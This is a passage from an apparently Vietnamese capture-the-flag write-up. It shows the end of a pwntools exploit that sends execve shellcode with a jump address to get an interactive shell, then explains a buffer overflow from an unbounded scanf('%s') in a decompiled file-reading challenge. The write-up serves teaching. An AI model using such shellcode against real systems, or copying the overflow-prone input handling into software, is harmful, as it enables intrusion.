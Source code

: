 ```python
xchg rax,rdi
mov rax,0x3b
nop
sub rdi,0x4c
xor esi,esi
xor edx,edx
syscall
                ''')
print(len(shellcode))
p.sendline(shellcode + p64(jmp))


p.interactive()
```



## Readme Please

- đầu tiên nó sẽ tạo 1 password với lenght 127 byte , tiếp theo là cho ta nhập 1 path vào , tuy nhiên ở đây nó lại dùng định dạng `%s` -> `bof` , tiếp theo nữa là check xem ta có nhập đúng tên file là flag.txt không và yêu cầu ta nhập mật khẩu , nếu đúng thì ta có flag 

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int i; // [rsp+Ch] [rbp-184h]
  const char *s1; // [rsp+10h] [rbp-180h]
  FILE *stream; // [rsp+18h] [rbp-178h]
  char path[112]; // [rsp+20h] [rbp-170h] BYREF
  char s[112]; // [rsp+90h] [rbp-100h] BYREF
  char s2[136]; // [rsp+100h] [rbp-90h] BYREF
  unsigned __int64 v10; // [rsp+188h] [rbp-8h]

  v10 = __readfsqword(0x28u);
  generate_password(s2, 127uLL);
  printf("Welcome to file reading service!");
  fflush(_bss_start);
  for ( i = 0; i <= 1; ++i )
  {
    printf("\nEnter the file name: ");
    fflush(_bss_start);
    __isoc99_scanf("%s", path);
    s1 = __xpg_basename(path);
    stream = fopen(path, "r");
    if ( stream )
    {
      if ( strcmp(s1, "flag.txt")
        || (printf("Enter password: "), fflush(_bss_start), __isoc99_scanf("%s", s), !strcmp(s, s2)) )
      {
        while ( fgets(s, 100, stream) )
        {
          printf("%s", s);
          fflush(_bss_start);
        }
        fclose(stream);
      }
      else
      {
        puts("Incorrect password!");
        fflush(_bss_start);
      }
    }
```